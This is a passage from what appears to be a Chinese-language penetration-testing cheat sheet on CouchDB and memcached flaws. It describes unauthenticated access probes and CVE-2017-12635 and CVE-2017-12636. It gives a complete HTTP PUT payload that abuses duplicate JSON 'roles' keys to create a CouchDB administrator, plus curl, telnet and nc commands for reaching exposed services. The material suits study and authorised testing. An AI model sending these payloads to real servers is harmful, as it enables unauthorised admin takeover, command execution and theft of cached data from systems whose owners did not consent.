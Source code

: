     `curl http://<IP>:5984`

    `curl http://<IP>:5984/_config`

**CVE-2017-12635 垂直权限绕过漏洞**
- 简述

    CVE-2017-12635 是由于 Erlang 和 JavaScript 对 JSON 解析方式的不同，导致语句执行产生差异性导致的。这个漏洞可以让任意用户创建管理员，属于垂直权限绕过漏洞。

- 影响版本：小于 1.7.0 以及 小于 2.1.1

- POC | Payload | exp

    来源 : [Couchdb 垂直权限绕过漏洞（CVE-2017-12635）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12635/README.md)
    ```
    PUT /_users/org.couchdb.user:vulhub HTTP/1.1
    Host: your-ip:5984
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/json
    Content-Length: 108

    {
    "type": "user",
    "name": "vulhub",
    "roles": ["_admin"],
    "roles": [],
    "password": "vulhub"
    }
    ```

**CVE-2017-12636 任意命令执行漏洞**
- 简述

    CVE-2017-12636 是一个任意命令执行漏洞，我们可以通过 config api 修改 couchdb 的配置 query_server，这个配置项在设计、执行 view 的时候将被运行。

- 影响版本：小于 1.7.0 以及 小于 2.1.1

- POC | Payload | exp
    - [Couchdb 任意命令执行漏洞（CVE-2017-12636）](https://github.com/vulhub/vulhub/blob/master/couchdb/CVE-2017-12636/README.md)

## memcached

**未授权访问漏洞**
- 简述

    Memcached 是一套常用的 key-value 分布式高速缓存系统，由于 Memcached 的安全设计缺陷没有权限控制模块，所以对公网开放的 Memcache 服务很容易被攻击者扫描发现，攻击者无需认证通过命令交互可直接读取 Memcached 中的敏感信息。

- POC | Payload | exp

    `telnet <ip> 11211`

    `nc -vv <ip> 11211`

